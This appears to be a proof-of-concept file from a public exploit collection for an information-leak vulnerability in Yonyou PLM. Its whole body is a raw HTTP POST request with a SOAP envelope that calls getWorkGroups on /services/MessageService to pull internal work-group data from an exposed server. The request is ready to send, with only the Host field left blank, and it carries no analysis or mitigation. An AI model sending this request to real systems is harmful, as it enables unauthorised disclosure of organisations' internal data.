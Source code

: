 # yonyouPLM_getWorkGroups_infoleak

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8B%E6%99%BA%E7%9F%B3%E5%BC%80PLM-getWorkGroups%E5%AD%98%E5%9C%A8%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.md

```
POST /services/MessageService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 208

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:mes="MessageService">
   <soapenv:Header/>
   <soapenv:Body>
      <mes:getWorkGroups/>
   </soapenv:Body>
</soapenv:Envelope>
```
